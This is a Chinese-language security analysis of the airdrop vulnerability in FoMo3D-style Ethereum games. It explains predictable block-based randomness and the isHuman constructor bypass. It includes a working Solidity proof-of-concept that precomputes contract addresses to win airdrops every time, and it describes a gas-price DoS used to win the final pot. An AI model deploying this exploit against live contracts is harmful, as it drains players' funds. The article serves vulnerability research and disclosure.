

# 类FoMo3D游戏空投漏洞及利用
##  零、前言
自2014年Ethereum上线至今，ETH已经成为了仅次于BTC的第二大数字货币，Ethereum因为其支持智能合约而备受推崇，被认为是区块链2.0，“code is law” 是在以太坊社区经常被提及的话，但是写出不含漏洞的程序本身就是一件非常困难的事情，再加上区块链的一些特性以及ETH本身的金融属性，智能合约的漏洞不可避免地对以太坊造成不少的负面影响。

2016年的TheDao事件直接导致了以太坊硬分叉成ETC和ETH，2017年多重签名钱包Parity也出现安全漏洞，15万个ETH被盗（价值3000万美元左右）等等各类智能合约漏洞层出不穷，虽然有部分是像整数溢出这类型的传统程序漏洞，但是造成重大影响的一些漏洞还是由于开发人员对于以太坊本身的特质不够了解所导致的，比如TheDao事件中，利用`fallback()`函数进行重入等等，这些都不是本文的主角就不再赘述了。

本文将对一类新的漏洞和其攻击手段做研究。攻击者利用游戏中的空投(AirDrop)机制实现的漏洞，可以构建合约对游戏进行自动攻击，从而获利。本文将阐述攻击的原理以及具体的攻击方法以及PoC代码。

## 一、背景介绍
### 1.１ FoMo3D游戏规则简介
2018年7月6号，一款名叫FoMo3D的智能合约(0xA62142888ABa8370742bE823c1782D17A0389Da1)悄然上线，在之后的一个月内，由于其极具吸引力的规则，迅速火爆起来，第一轮游戏一直持续到8月22号才结束，吸金上亿，我们先对FoMo3D进行一个简单了解：

- FoMo3D是一款资金盘游戏，每轮游戏初始24个小时

- 玩家通过购买seed加入游戏， 每有一位玩家购买，本轮的游戏时间会延长30秒（可见第一轮游戏的火爆程度）

- 每次购买seed会增加seed的售价

- 每次购买seed的金额会分为四个部分，一部分要给先入场的玩家分红，分红比例取决于玩家各自购买的seed数量占比，一部分流入最终奖池，一部分流入空投奖池，一部分给介绍人(上线)

- 流入空投奖池的金额占每次购买的1%，给上线的占10%，流入最终奖池和分红的占比取决于选择的战队，战队系统就不多介绍了，与本文关系不大

- 每次购买花费超过0.1ETH有一定几率获得空投奖励

- 一轮游戏结束后，最终奖池的48%由最后一个购买seed的大赢家获得，剩下的52%一部分流入下一个奖池，一部分给所有玩家分红，比例取决于大赢家所属战队

显然，在这个游戏规则下，购买seed就是购买分红权，先入场的玩家占有绝对优势，所以在游戏前期，玩家为了获得优势会争抢着入场，而为了不让最终大奖落入别人腰包，大家又会不断地购买seed延长游戏时间，资金池便越滚越大, 为了获得下线的分红还会不断地帮助宣传，游戏影响的范围也越来越大。
### １.２ 相关知识介绍
我们先介绍几个相关的知识点，然后再针对FoMo3D的一些异常交易进行分析及复现, 以下是以太坊黄皮书上的两段话
> Random Numbers.
>> Providing random numbers within a deterministic system is, naturally, an impossible task. However, we can approximate with pseudo-random numbers by utilising data which is generally unknowable at the time of transaction. Such data might include the block's hash, the block's timestamp and the block's beneficiary address.In order to make it hard for malicious miners to control those values, one should use the BLOCKHASH operation in order to use hashes of the previous 256 blocks as pseudo-random numbers. For a series of such numbers, a trival solution would be to add some constant amout and hashing the result.

> Contract Creation
>> ......
THe address of the new account is defined as being the rightmost 160 bits of the Keccak hash of the RLP encoding of the structure containing only the sender and the nonce. 
......

> World State.
>> ......
nonce: A scalar value equal to the number of transactions sent from this address or, in the case of accounts with associated code, the number of contract-creations made by this account.
......

根据第一段内容，我们可以了解到，由于区块链分布式共识的特点，以太坊的智能合约是无法支持真正的随机数的，只能利用`BLOCKHASH`, `TIMESTAMP`等等这些区块上的信息构造伪随机数，再结合我们上面所提到的FoMo3D的空投奖励是基于概率获得的，那么它这里的概率是如何实现的呢，我们后面再看。

上述引用中的后两段内容则是智能合约的地址的计算方法。通过描述我们可以发现，智能合约的生成地址是由发送者（也就是合约的创建者的地址）以及一个`nonce`值决定。而这两个值都是攻击者可以控制(或者部分控制的）。

## 二、利用伪随机数可预测获取空投的方法
### 2.1 现场还原
我们先从etherscan上的一笔真实交易来看一看

[0x1a6652ef65e671cf9caaae8f1d8cc2dea6416d53738858b8e40920c1c7e79542](https://etherscan.io/tx/0x1a6652ef65e671cf9caaae8f1d8cc2dea6416d53738858b8e40920c1c7e79542) 


从图中可以看出，地址为`0x20c945800de43394f70d789874a4dac9cfa57451`的普通账户向合约账户`0xe7cebc3ef3f77c314fad5369af26474bbff8f0e2`发起一笔交易，进而引起一连串的内部交易，且在第二笔内部交易时程序控制权就转到了FoMo3D(`0xA62142888ABa8370742bE823c1782D17A0389Da1`)的合约内部, 最终伴随着地址为`0x121219C1f7A4D863a2727E154d1170d3cE7F4853`的合约账户的自毁，交易发起人`0x20C945800de43394F70D789874a4daC9cFA57451`以0.1ETH的成本获得了约0.19ETH的收入，回报率高达90%,这一连串交易牵扯的智能合约除了FoMO3D以外都是闭源的，显然这不是一笔正常的交易，让我们一步步来分析其中的玄机。

### 2.2 FoMo3D部分源码
首先我们从开源的FoMo3D开始分析，根据etherscan中的数据可以看出自第二笔内部交易合约账户`0x121219C1f7A4D863a2727E154d1170d3cE7F4853`向FoMo3D转入0.1ETH后程序便执行的是FoMo3D中的代码，根据0.1ETH这个数值结合FoM3D获得空投的机制我们猜测这笔交易的目的可能是赚取空投奖励,下面是fomo3d的部分源码(将部分无关的省略了)

```
contract FoMo3DLong {
......

    DiviesInterface constant private Divies = DiviesInterface(0xc7029Ed9EBa97A096e72607f4340c34049C7AF48);
    JIincForwarderInterface constant private Jekyll_Island_Inc = JIincForwarderInterface(0xdd4950F977EE28D2C132f1353D1595035Db444EE);
    ......
    function core(uint256 _rID, uint256 _pID, uint256 _eth, uint256 _affID, uint256 _team, F3Ddatasets.EventReturns memory _eventData_)
        private
    {
            ......     
            // manage airdrops
            if (_eth >= 100000000000000000)
            {
            airDropTracker_++;
            if (airdrop() == true)
            {
                // gib muni
                uint256 _prize;
                if (_eth >= 10000000000000000000)
                {
                    // calculate prize and give it to winner
                    _prize = ((airDropPot_).mul(75)) / 100;
                    plyr_[_pID].win = (plyr_[_pID].win).add(_prize);
                    
                    // adjust airDropPot 
                    airDropPot_ = (airDropPot_).sub(_prize);
                    
                    // let event know a tier 3 prize was won 
                    _eventData_.compressedData += 300000000000000000000000000000000;
                } else if (_eth >= 1000000000000000000 && _eth < 10000000000000000000) {
                    // calculate prize and give it to winner
                    _prize = ((airDropPot_).mul(50)) / 100;
                    plyr_[_pID].win = (plyr_[_pID].win).add(_prize);
                    
                    // adjust airDropPot 
                    airDropPot_ = (airDropPot_).sub(_prize);
                    
                    // let event know a tier 2 prize was won 
                    _eventData_.compressedData += 200000000000000000000000000000000;
                } else if (_eth >= 100000000000000000 && _eth < 1000000000000000000) {
                    // calculate prize and give it to winner
                    _prize = ((airDropPot_).mul(25)) / 100;
                    plyr_[_pID].win = (plyr_[_pID].win).add(_prize);
                    
                    // adjust airDropPot 
                    airDropPot_ = (airDropPot_).sub(_prize);
                    
                    // let event know a tier 3 prize was won 
                    _eventData_.compressedData += 300000000000000000000000000000000;
                }
                // set airdrop happened bool to true
                _eventData_.compressedData += 10000000000000000000000000000000;
                // let event know how much was won 
                _eventData_.compressedData += _prize * 1000000000000000000000000000000000;
                
                // reset air drop tracker
                airDropTracker_ = 0;
            }
        }
    
            ......
    
            // distribute eth
            _eventData_ = distributeExternal(_rID, _pID, _eth, _affID, _team, _eventData_);
            _eventData_ = distributeInternal(_rID, _pID, _eth, _team, _keys, _eventData_);
            
            // call end tx function to fire end tx event.
            endTx(_pID, _team, _eth, _keys, _eventData_);
        }
    }
    
    
    function distributeExternal(uint256 _rID, uint256 _pID, uint256 _eth, uint256 _affID, uint256 _team, F3Ddatasets.EventReturns memory _eventData_)
        private
        returns(F3Ddatasets.EventReturns)
    {
        // pay 2% out to community rewards
        uint256 _com = _eth / 50;
        uint256 _p3d;
        if (!address(Jekyll_Island_Inc).call.value(_com)(bytes4(keccak256("deposit()"))))
        {
            // This ensures Team Just cannot influence the outcome of FoMo3D with
            // bank migrations by breaking outgoing transactions.
            // Something we would never do. But that's not the point.
            // We spent 2000$ in eth re-deploying just to patch this, we hold the 
            // highest belief that everything we create should be trustless.
            // Team JUST, The name you shouldn't have to trust.
            _p3d = _com;
            _com = 0;
        }
        
        // pay 1% out to FoMo3D short
        uint256 _long = _eth / 100;
        otherF3D_.potSwap.value(_long)();
        
        // distribute share to affiliate
        uint256 _aff = _eth / 10;
        
        // decide what to do with affiliate share of fees
        // affiliate must not be self, and must have a name registered
        if (_affID != _pID && plyr_[_affID].name != '') {
            plyr_[_affID].aff = _aff.add(plyr_[_affID].aff);
            emit F3Devents.onAffiliatePayout(_affID, plyr_[_affID].addr, plyr_[_affID].name, _rID, _pID, _aff, now);
        } else {
            _p3d = _aff;
        }
        
        // pay out p3d
        _p3d = _p3d.add((_eth.mul(fees_[_team].p3d)) / (100));
        if (_p3d > 0)
        {
            // deposit to divies contract
            Divies.deposit.value(_p3d)();
            
            // set up event data
            _eventData_.P3DAmount = _p3d.add(_eventData_.P3DAmount);
        }
        
        return(_eventData_);
    }
......
}
contract JIincForwarder {
......
    function deposit()
        public 
        payable
        returns(bool)
    {
        require(msg.value > 0, "Forwarder Deposit failed - zero deposits not allowed");
        require(needsBank_ == false, "Forwarder Deposit failed - no registered bank");
        if (currentCorpBank_.deposit.value(msg.value)(msg.sender) == true)
            return(true);
        else
            return(false);
    }
......
}
```

购买FoMo3D的seed是通过调用FoMo3D中的函数`buyXid`, `buyXaddr`, `buyXname`中的任意一个，经过一系列的参数检查之类的操作，都会转到`core()`函数来执行一些核心操作，其中就有获得空投奖励的机制， 从中可以看到如果获得空投奖励，并不会直接将ETH转到获奖账户，而是通过`plyr_[_pID].win = (plyr_[_pID].win).add(_prize)` 将奖励加入到玩家的私人奖池中，可以随时调用`withdraw()`函数取走; 程序逻辑中只有 `address(Jekyll_Island_Inc).call.value(_com)(bytes4(keccak256("deposit() , currentCorpBank_.deposit.value(msg.value)(msg.sender) == true` 以及 `Divies.deposit.value(_p3d)()` 这三个语句发起了立即的内部交易进行转账，不管是金额还是合约地址都与图中的第三，四，五笔内部交易吻合，我们再来翻看etherscan上提供的本笔交易的log信息。

 

最后一笔log显示，合约调用了FoMo3D的`withdraw()`函数取走了存款，从这里可以看出etherscan的内部交易只记录了value大于0的情况，log中的记录的ethOut也与图中第六笔内部交易的value吻合, 根据下图可以知道合约`0x121219c1f7a4d863a2727e154d1170d3ce7f4853`正是通过这笔交易被创建的，它的生命仅仅只存在于这一笔交易，那么它能从FoMo3D中withdraw()出来的eth也只能是这一笔交易中获得的空投奖励了。

 
[0x121219C1f7A4D863a2727E154d1170d3cE7F4853](https://etherscan.io/address/0x121219c1f7a4d863a2727e154d1170d3ce7f4853#internaltx) 

简单看完这笔交易的情况，几乎可以确定这笔交易中闭源的智能合约是有问题的。

```
contract FoMo3DLong {
......
    modifier isHuman() {
        address _addr = msg.sender;
        uint256 _codeLength;
        
        assembly {_codeLength := extcodesize(_addr)}
        require(_codeLength == 0, "sorry humans only");
        _;
    }
......
}
```

为了确保购买seed的只能是外部账户，FoMo3D中所有可供外部调用的合约都加上了`isHuman`这一`modifier`，但是它是通过`msg.sender`账户的`code size`来判断其是否为一个外部账户，而一个智能合约在部署过程中的`code size`和外部账户一样也是0, 所以这个`modifier`可以通过`constructor()`来绕过，这笔交易中创建合约`0x121219C1f7A4D863a2727E154d1170d3cE7F4853`让其去购买seed的目的就在于此了。

 

上图是交易发起者0x20c945800de43394f70d789874a4dac9cfa57451的内部交易列表，显然像这样的交易不在少数

```
contract FoMo3DLong {
......
    function airdrop()
        private 
        view 
        returns(bool)
    {
        uint256 seed = uint256(keccak256(abi.encodePacked(
            (block.timestamp).add
            (block.difficulty).add
            ((uint256(keccak256(abi.encodePacked(block.coinbase)))) / (now)).add
            (block.gaslimit).add
            ((uint256(keccak256(abi.encodePacked(msg.sender)))) / (now)).add
            (block.number)
            
        )));
        if((seed - ((seed / 1000) * 1000)) < airDropTracker_)
            return(true);
        else
            return(false);
    }
......
}
```

这是FoMo3D空投机制的核心代码，过程有点类似于挖矿，通过对区块中的`timestamp`,`difficulty`,`coinbase`,`block_number`以及`msg.sender`进行一些运算得到一个值seed(与购买的seed无关), 然后若seed对1000取余小于`airDropTracker_`则获得空投，则获得空投的概率是千分之`airDropTracker_`， 每次有玩家购买超过0.1ETH，`airDropTracker_`便自增一，从而增加获得空投的几率。但是如果在其他的合约环境中提前运行一次函数`airdrop()`，我们可以在不购买seed的情况下提前获知自己是否能获得空投，而该函数中唯一可变的量是`msg.sender`，我们可以反复地改变`msg.sender`来运行`airdrop()`,当`airdrop()`返回`True`的时候再让这个`msg.sender`向FoMo3D购买seed，这样是否可以确保自己能获得空投呢？

### 2.3 攻击复现

由于FoMo3D的合约代码十分复杂而且并不完全开源，为了实验方便，我们仅取了其中有关空投机制的一段代码。并用这一段核心代码创建了一个靶子合约（有漏洞的合约)。合约代码如下。

```
pragma solidity ^0.4.24;

contract Airdrop {

	using SafeMath for uint256;

	uint256 public airDropTracker_ = 100;
	bool public isjump = false;
	
	event record(address caller, bool isjump)

	function setThreshold(uint256 num) public {
		airDropTracker_ = num;
	}
	
	function reset() public {
		isjump = false;
	}

	function _airdrop()
    private 
     
    returns(bool)
    {
        uint256 seed = uint256(keccak256(abi.encodePacked(
            
            (block.timestamp).add
            (block.difficulty).add
            ((uint256(keccak256(abi.encodePacked(block.coinbase)))) / (now)).add
            (block.gaslimit).add
            ((uint256(keccak256(abi.encodePacked(msg.sender)))) / (now)).add
            (block.number)
            
        )));
        if((seed - ((seed / 1000) * 1000)) < airDropTracker_) {
            return true;
        }
        else {
            return false;
        }
    }

    function can_i_jump() public payable {

    	if (_airdrop()) {
    		isjump = true;
    		emit record(msg.sender, true);
    	} else {
    		emit record(msg.sender, false);
    	}
    }
}
```

为了方便实验，我们将`airDropTracker_`设为100， 首先将靶子部署在私链上， 并确认`isjump`的值为false
 
 
 
然后部署我们的攻击合约
 

 

```
contract manager {

	using SafeMath for uint;

	address[] private _proxy = new address[](100);
	uint[] private _nonce = new uint[](100);
	uint8 public seq;

	event next_address(address);
	event by_pass(bool);

	modifier isMe() { 
		require (msg.sender == 0xAaD4419199D1d67b80DE09F21D9f85d462065A79);
		_;
	}
	
	function proxy_initialization() isMe public {
		for (uint8 i = 0; i < 10; i++) {
			_proxy[seq] = new proxy();
			seq ++;
		}

	}

	function attack(address attackee, uint airDropTracker_) isMe public payable {
		for (uint8 i = 0; i < 100; i++) {
			address proxy_address = _proxy[i];
			uint proxy_nonce = _nonce[i] + 1;
			if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), airDropTracker_)) {
				if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack(address)")), attackee)) == false) {
					// These code will not be executed, even though call fail.
					revert();
				}
				_nonce[i] ++;

				break;
			}
		}
	}

	function fake_airdrop(address next_address, uint airDropTracker_) public  returns(bool) {


        uint256 seed = uint256(keccak256(abi.encodePacked(
            
            (block.timestamp).add
            (block.difficulty).add
            ((uint256(keccak256(abi.encodePacked(block.coinbase)))) / (now)).add
            (block.gaslimit).add
            ((uint256(keccak256(abi.encodePacked(next_address)))) / (now)).add
            (block.number)
            
        )));
        if ((seed - ((seed / 1000) * 1000)) < airDropTracker_) {
        	emit by_pass(true);
            return true;
        }
        else {
        	emit by_pass(false);
            return false;
        }
    }

	function count_next_address(address addr, uint non) public returns(address) {

		uint8  len_non;
		uint8 len;
		bytes memory rlp;

		if (non >= 0 && non <= 0x7f)
			len_non = 0;
		else if (non <= 0xff)
			len_non = 1;
		else if (non <= 0xffff)
			len_non = 2;
		else if (non <= 0xffffff)
			len_non = 3;
		else if (non <= 0xffffffff)
			len_non = 4;
		else if (non <= 0xffffffffff)
			len_non = 5;
		else if (non <= 0xffffffffffff)
			len_non = 6;
		else if (non <= 0xffffffffffffff)
			len_non = 7;
		else if (non <= 0xffffffffffffffff)
			len_non = 8;
		

		len = 23 + len_non;
		rlp = new bytes(len);
		rlp[0] = byte(0xc0 + len - 1);
		rlp[1] = byte(0x80 + 20);
		for (uint8 i = 0; i < 20; i++)
			rlp[i + 2] = byte(uint8(uint160(addr) / uint160(2 ** (8 * (19 - uint160(i))))));
		if (non <= 0xf7 && non > 0)
			rlp[22] = byte(uint8(non));
		else {
			rlp[22] = byte(0x80 + len_non);
			for (uint8 i = 0; i < len_non; i++)
				rlp[23 + i] = byte(uint8(non / uint64(2 ** (8 * (len_non - 1 - uint64(i))))));
		}

		address temp = address(uint(keccak256(rlp)));

		emit next_address(temp);

		return temp;
	}
}
contract proxy {

	function attack(address attackee) public payable {
		(new final_call).value(100000000000000000)(attackee);
	}

}

contract final_call {

	constructor(address attackee) payable public {
		if (attackee.call.value(100000000000000000)(abi.encode(bytes4(keccak256("can_i_jump()")))) == false) {
			revert();
		}
	}
}
```

根据黄皮书的介绍，我们可以预测下一个将要部署的智能合约的账户地址，其中需要注意的就是合约账户的`nonce`初始为一(可能是将创建自己当做一次了)，我们的攻击合约的逻辑如下:

 

首先调用攻击合约的`proxy_initialization()` 10次，生成一百个proxy合约供我们调整`msg.sender`

 

然后调用`attack()`攻击靶子

 
 

event `next_address(address)` 和 `bypass(bool)` 记录了尝试`fakeairdrop()`的过程:

 

最后一条log来自与靶子中的event `record()` 记录下了最后发起攻击的临时合约。最后查看靶子合约中的`is_jump`变量:

 

is_jump 变为true, 攻击成功。

### 2.4 空投漏洞小结

虽然我们的复现没有真实地对FoMo3D发起攻击，也没有完全地部署它的全部代码，但是我们的实验再加上那些在链上真实存在的异常交易足以证明FoMo3D的空投机制存在漏洞，经过我们简单地复现后，再来看刚开始的那笔异常交易，其背后的运行机制可能会清晰很多。


交易发起者向`proxy_n`(暂且这么叫)发起一笔交易，`proxy_n`预测自己下一个部署的智能合约的地址并将其当做`msg.sender`运行`fake_airdrop()`,如果返回`true`则部署`final_call`(暂且这么叫)向FoMo3D购买seed便可以保证自己百分之百地获取空投，如果返回`false`,则再进行下一次尝试。该笔交易的攻击模式与我们复现的有一点不同之处，我们有一个`manager`合约保存了100个智能合约的地址，循环的选择`proxy_n`，成本更低，成功率更高。

实际上还有一些模仿FoMo3D的游戏，它们基本照搬了FoMo3D的源码，只是修改了几个参数。这些游戏也同样会受到本文所述的攻击，其中比较突出的有一款叫Last Winner (`0xDd9fd6b6F8f7ea932997992bbE67EabB3e316f3C`)的游戏，它将每笔购买金额分入空投池的占比从1%增加到了10%，简直成为了这些骇客的捞金池。

 
 


### 三、最终大赢家

前文主要介绍了空投漏洞以及如何利用该漏洞来获利，是知识转化成财富的“经典励志”故事。有意思的是，我们在研究的过程中，发现了最终的大赢家也是靠知识获赢得了游戏。因此本章分析了最后的大赢家的游戏策略。虽然和空投无关，但是整个过程仍然体现了攻击者对于游戏、矿池整个生态的深入了解。

根据前文介绍的FoMo3D的游戏规则，在资金盘如此大的情况，是不太可能如此早地就结束了，毕竟玩家只需要花很少的ETH购买一个seed就可以博一下最后的大奖，即使博不到也能阻止别的人获奖，相信有大把的玩家在后台运行着脚本，游戏时间快结束的时候就自动购买seed,可是事实就是在8月22号结束了第一局，最终大奖10469ETH被地址为`0xa169DF5ED3363cfC4c92ac96C6C5f2A42fCCBF85`的玩家获得。

 

这是第一轮游戏最后一笔购买seed的交易：

 
 

根据我们数据库的查询结果从区块`6191896` 到 `6191908`只有两笔购买seed的交易，一笔是赢家，另一笔由于out of gas失败了:

 

这笔交易的gas price 高达`5559Gwei`,比正常的gas price高出数千倍，这其中的十几个区块到底怎么了，为什么向FoMo3D发起的交易齐齐出现在了`6191909`，这时第一轮游戏的倒计时已经结束了。

 
 

从上面两张图能够看出从`6191896`到`6191908`这是几个区块的交易数量较少且`gas_price`明显高于平时。

 

并且在这几十个区块中有一个合约地址非常活跃`0x18e1B664C6a2E88b93C1b71F61Cbf76a726B7801`,多个地址向其发起了多笔`gas_price`超高的交易，从etherscan提供的数据可知这个合约的部署者正是最终的大赢家。

 
[malcontract_creation](https://etherscan.io/tx/0x21ebb34d74aa487f036d5b8b5cf9cbfc7083b9fec3614a312341a3ab01592293) 

 

 
[0xbc8e8aa51732f7a7994f27e4bb75faeb4326d8002295611c7902cb85d2bb8319](https://etherscan.io/tx/0xbc8e8aa51732f7a7994f27e4bb75faeb4326d8002295611c7902cb85d2bb8319) 

这些高`gas_price`的交易都以`bad instruction`的原因而失败， 显然这是故意而为之，由于矿工大多都会优先选择`gas_price`高的交易打包，所以这么多笔`gas_price`超高的交易大概率是DoS攻击，目的是为了阻止竞争者购买seed的交易被打包上链。

而在`6191907`区块的那笔由于`out of gas`而revert的交易，推测是另有玩家发现了攻击者的攻击行为，而在最后的时刻部署了一个`gas_price`更高的交易来购买seed, 可惜`gas_limit`设少(可能是紧张)，和最终大奖失之交臂。

### 四、总结

自FoMo3D诞生以来，不仅传播速度极快，而且各类模仿游戏层出不穷，巧妙的规则设计吸引了大量的玩家，不管是空投漏洞，还是Dos攻击夺大奖，最终获取巨大利润的还是躲在阴暗中的骇客，“去中心化，不可篡改， 人人平等， 绝对公平” 这些商业的宣传就像是在喊口号般无力。

在这区块链火热的当口，各类空气币，传销币ICO圈钱跑路，智能合约漏洞一波接一波，在当下社会中，区块链，ICO这些词仿佛已经和诈骗画上了等号，其实区块链只是一项技术，实际落地还是有很长的路要走。

### 参考文献
- [1] 一种针对类FoMo3D游戏空投的高级攻击技术剖析
[https://paper.seebug.org/672/](https://paper.seebug.org/672/) 
- [2] 智能合约游戏之殇——类Fomo3D攻击分析
[https://paper.seebug.org/681/](https://paper.seebug.org/681/) 


